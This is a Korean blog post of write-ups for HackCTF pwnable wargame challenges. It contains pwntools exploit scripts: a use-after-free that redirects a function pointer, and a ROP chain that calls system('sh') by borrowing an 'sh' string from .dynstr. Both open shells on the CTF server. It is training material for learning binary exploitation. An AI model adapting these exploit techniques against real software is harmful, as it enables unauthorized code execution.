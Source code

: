 ```yaml
---
layout: post
title:  "HackCTF Pwnable - sixth line"
excerpt: "for All Clear HackCTF"
date:   2020-07-10
categories: [wargame]
comments: true
---
```


<h3> 0x0 . UAF
</h3>

binary :

| canary  | fortify  | nx      | pie      | relro   |
| ------- | -------- | ------- | -------- | ------- |
| enabled | disabled | enabled | disabled | partial |



add_note함수에서 heap 청크를 두번 할당하고 free한 후에 다시 largebin 이상의 크기를 할당하고 두번째로 할당한 청크에 magic함수를 이용하여 해결했다.

exploit :

```python
from pwn import *

p = remote("ctf.j0n9hyun.xyz", 3020)
e = ELF("./uaf")
magic = e.symbols['magic']

def add(size,content):
    p.sendlineafter(":","1")
    p.sendlineafter(":",str(size))
    p.sendlineafter(":",content)
def rm(inti):
    p.sendlineafter(":","2")
    p.sendlineafter("Index :",str(inti))
def prt(num):
    p.sendlineafter(":","3")
    p.sendlineafter("Index :",str(num))

pay = 'A' * 16
pay += p32(magic)

dum = "A"*4

add(8,dum)
add(8,dum)
rm(1)
rm(0)
add(600,pay)

prt(1)

p.interactive()
```

이 문제는  uaf를 공부하기에 아주 적절한 것 같다. 요세 힙을 공부하기 시작했는데 따로 정리해둘까 한다.



<h3> 0x1 . ROP
</h3>

이건  ROP글에서 정리했으니 패스

링크 : [http://강준혁.kr/articles/2020-03/ROP](http://강준혁.kr/articles/2020-03/ROP ) 



<h3> 0x2 . You are silver
</h3>

binary :

| canary   | fortify  | nx      | pie      | relro   |
| -------- | -------- | ------- | -------- | ------- |
| disabled | disabled | enabled | disabled | partial |



exploit :

조금 더 고민해보자..



<h3> 0x3 . Unexploitable #1
</h3>

binary :

| canary   | fortify  | nx      | pie      | relro   |
| -------- | -------- | ------- | -------- | ------- |
| disabled | disabled | enabled | disabled | partial |



exploit : 

```python
from pwn import *

p = remote("ctf.j0n9hyun.xyz",3023)
e = ELF("./Unexploitable_1")
libc = ("/lib/x86_64-linux-gnu/libc.so.6")

system_plt = e.plt['system']
fgets_got = e.got['fgets']
pr = 0x4007d3
sh = 0x4003BB + 0x4

pay = 'A'*24
pay += p64(pr)
pay += p64(sh)
pay += p64(system_plt)

p.recvuntil("Easy RTL ha? You even have system@plt!")
p.sendline(pay)

p.interactive()
```

이번에는 처음으로 dynstr을 이용한 익스를 해보았다. 원래는 릭을 해서 그냥 ROP를 하려했는데 이전에 내가 정리한 글에 http://강준혁.kr/articles/2020-03/.dynstr-exploit 이 글이 생각나서 이렇게 fflush에 sh만 잘라서 system("sh")을 넘겨줬다. 



